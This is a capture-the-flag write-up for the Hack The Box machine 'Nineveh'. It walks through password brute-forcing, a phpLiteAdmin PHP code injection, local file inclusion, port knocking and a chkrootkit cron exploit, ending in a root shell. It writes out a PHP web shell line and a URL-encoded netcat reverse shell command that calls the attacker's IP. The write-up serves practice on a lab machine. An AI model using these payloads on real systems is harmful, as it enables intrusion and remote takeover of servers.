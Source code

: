# Nineveh

### Machine Info
![](screenshots/nineveh.png)

#### Nmap
![](screenshots/nmap.png)



##### HTTP
Index Page:
![](screenshots/http_index.png)

`Gobuster`:
![](screenshots/http_gobuster.png)

`Gobuster` with different wordlists:
![](screenshots/http_gobuster2.png)



`/info.php`:
![](screenshots/info_php.png)


`/department`:</br>
Tried to login with default/common credential but failed.
![](screenshots/department.png)

`Brute-force` against `/department` page:
![](screenshots/http_hydra.png)

We can now login to `/department` page with password `1q2w3e4r5t`:
![](screenshots/manage.png)

From the department page I can check note:
```
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt
```
![](screenshots/notes.png)

I think we can change the `notes` parameter and it is vulnerable to `LFI` but when I change to something different (e.g `/etc/passwd`) it just returns "No Note is selected". It gives me error when the file starts with `ninevehNotes`.

![](screenshots/error.png)

This maybe because it searches or checks for string `ninevehNotes` before it executes.


##### HTTPS

Index Page:
![](screenshots/https_index.png)


`/db/index.php`:
![](screenshots/https_db.png)

I tried to login with default/common password but failed.

`Brute-force` against `/db/index.php`:
![](screenshots/php_hydra.png)

Now I can login with password `password123`:
![](screenshots/phpliteadmin.png)

`phpLiteAdmin v1.9` is vulnerable to `Remote PHP Code Injection`. Let's just follow the exploit `24044.txt` but with different value because we want to get a reverse shell.

First just create a db:
![](screenshots/php_default1.png)

Create a new table with default value:
```
<?php echo system($_GET["cmd"]);?>

```
![](screenshots/php_default2.png)

Now we just need to execute our malicious file from `/department` page from http server.

##### Exploit

We can create our new malicious php page from `phpliteadmin` and we can also access to file from `department` page. We cannot access to just random file name and the file name should be `ninevehNotes.php`. We already created from previous step so we just need to access.

Access from `/department` page:
```
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.37%204444%20%3E%2Ftmp%2Ff
```

`nc` listener from attacking side:
![](screenshots/low_shell.png)


#### www-data to user Privilege Escalation

First I checked `html` directory and found weird `.png` file which has very large size:
![](screenshots/ssl_img.png)

I just downloaded file `nineveh.png` and enumerated it with `Binwalk` which is a tool for analyzing, reverse engineering and extracting firmware images:
![](screenshots/binwalk.png)

`tar` archive is hidden in the png file. Let's extract file from image:
![](screenshots/binwalK_extract.png)

From the extracted files I can find the `ssh` private key:
![](screenshots/ssh_private.png)

But currently `ssh` port (22) is not opened. Let's keep enumerating if we can open `ssh` port.

From the mail directory I found one interesting mail for `Amrois` and it is from `root`:
![](screenshots/user_email.png)

It seems like if we do port-knocking to those three ports, port 22 will be opened. I just try port knock by using `knock`:

```
~/privEsc/linux-smart-enumeration master root@kali
❯ knock 10.10.10.43 571 290 911
```

And `nmap` again:</br>
Port 22 is opened now and we can ssh to user `amrois`!!
![](screenshots/nmap_new.png)

`ssh` to user `amrois` with key:
![](screenshots/user_shel.png)


#### User to Root Privilege Escalation

During enumeration I found a directory `/report`:
![](screenshots/report.png)

File in the report directory updates every minute which means there is a cronjob. So I just checked the cronjob with `pspy`:
![](screenshots/pspy.png)

Command `/bin/sh /usr/bin/chkrootkit` is executed every minute with root privilege. But I cannot change `chkrootkit` due to lack of permission so I just search for public exploit:
![](screenshots/chk_exploit.png)

I read the exploit `33899.txt` and followed steps.

First just create `update` file in the `/tmp` directory:
![](screenshots/update.png)

After a minute, from the `nc` listener:
![](screenshots/root_shell.png)

And you can get `root.txt` :)
